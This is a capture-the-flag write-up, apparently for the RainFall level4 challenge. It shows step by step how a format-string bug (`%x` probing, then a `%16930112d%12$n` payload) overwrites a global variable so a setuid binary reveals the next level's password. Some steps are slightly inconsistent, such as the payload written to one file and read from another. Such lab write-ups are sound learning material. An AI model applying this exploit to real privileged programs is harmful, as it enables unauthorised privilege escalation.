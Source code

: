level4
======

*	We spawn with a [level4](source/level4) executable
	```console
	level4@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
	level4@RainFall:~$ ./level4
	█
	level4@RainFall:~$ ./level4 
	dsadasd
	dsadasd
	```
*	Let's take a look at the [code](source/level4.c)
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level4@192.168.29.4:~/level4 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh 
	Executable files in the current directory:
	[1] ./level4
	Enter the number of the executable file you want to analyze: 1
	```
*	It seems there is 3 functions -> `main`, `p` and `n`. Even though the code isn't complex, for understanding purposes, I'll use ghidra to convert it to `C` in [level4.c](source/level4.c)
*	To summarize :
	-	`main` calls function `n` then return 
	-	`n` function uses `fgets` and calls `printf` with `p` on what you gave
	-	if the global variable `m` is equal to `0x1025544`, the function `cat` the password for the next level
*	I tried to do like [level3](../level3/) and found our argument at position 12
	```console
	level4@RainFall:~$ ./level4 
	aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x
	aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
*	Now let's retrieve the little endian address of `m (0x8049810)` -> `\x10\x98\x04\x08`
*	Let's try to print it with the program
	```console
	level4@RainFall:~$ python -c 'print "\x44\x55\x25\x10" + " %x "*12' > /tmp/test
	level4@RainFall:~$ cat /tmp/test | ./level4 
	DU% b7ff26b0  bffff794  b7fd0ff4  0  0  bffff758  804848d  bffff550  200  b7fd1ac0  b7ff37d0  10255544 
	```
	It seems to be working
*	The issue here is that padding of `0x1025544(int 16930116)`is too long so we need one more thing to specify the right field, we will be using the `%d` modifier like in the last level -> `%16930116d`. Let's not forget to remove `4` because of the base address size so it will be `%16930112d`
*	Let's try this and don't forget to change the `12th` position with `%n`:
	```console
	level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/test
	level4@RainFall:~$ cat /tmp/exploit | ./level4
	...
	0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
	```
